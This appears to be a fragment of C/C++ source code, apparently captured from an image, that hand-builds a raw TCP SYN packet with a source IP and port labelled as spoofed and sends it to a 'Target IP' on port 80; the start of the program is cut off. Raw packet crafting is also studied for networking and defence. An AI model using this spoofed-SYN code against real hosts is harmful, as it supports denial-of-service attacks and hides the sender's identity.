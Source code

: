 ```cpp
    dest.sin_addr.s_addr = inet_addr("203.0.113.1"); // Target IP

    memset(packet, 0, 4096);

    // Fill in the IP Header
    ip_header = (struct ip *) packet;
    ip_header->ip_hl = 5; 
    ip_header->ip_v = 4;
    ip_header->ip_tos = 0;
    ip_header->ip_len = sizeof(struct ip) + sizeof(struct tcphdr);
    ip_header->ip_id = htonl(54321); // Identification
    ip_header->ip_off = 0;              
    ip_header->ip_ttl = 255;          
    ip_header->ip_p = IPPROTO_TCP;
    ip_header->ip_sum = 0;            
    ip_header->ip_src.s_addr = inet_addr("192.0.2.1"); // Spoofed source IP
    ip_header->ip_dst = dest.sin_addr;

    // IP checksum
    ip_header->ip_sum = csum((unsigned short *) packet, ip_header->ip_len >> 1);

    // Fill in the TCP Header
    tcp_header = (struct tcphdr *) (packet + sizeof(struct ip));
    tcp_header->source = htons(1234); // Spoofed source port
    tcp_header->dest = htons(80); 
    tcp_header->seq = 0;
    tcp_header->ack_seq = 0;
    tcp_header->doff = 5;
    tcp_header->syn = 1;
    tcp_header->window = htons(65535); 
    tcp_header->check = 0; 
    tcp_header->urg_ptr = 0;

    // Pseudo header for checksum calculation
    psh.source_address = inet_addr("192.0.2.1");
    psh.dest_address = dest.sin_addr.s_addr;
    psh.placeholder = 0;
    psh.protocol = IPPROTO_TCP;
    psh.tcp_length = htons(sizeof(struct tcphdr));

    int psize = sizeof(struct pseudo_header) + sizeof(struct tcphdr);
    char *pseudogram = (char *)malloc(psize);

    memcpy(pseudogram, (char *)&psh, sizeof(struct pseudo_header));
    memcpy(pseudogram + sizeof(struct pseudo_header), tcp_header, sizeof(struct tcphdr));

    tcp_header->check = csum((unsigned short *)pseudogram, psize >> 1);

    // Send the packet
    if (sendto(sock, packet, ip_header->ip_len, 0, (struct sockaddr *)&dest, sizeof(dest)) < 0) {
        perror("Sendto error");
        exit(EXIT_FAILURE);
    }

    close(sock); // Close the socket
    return 0;
}
```
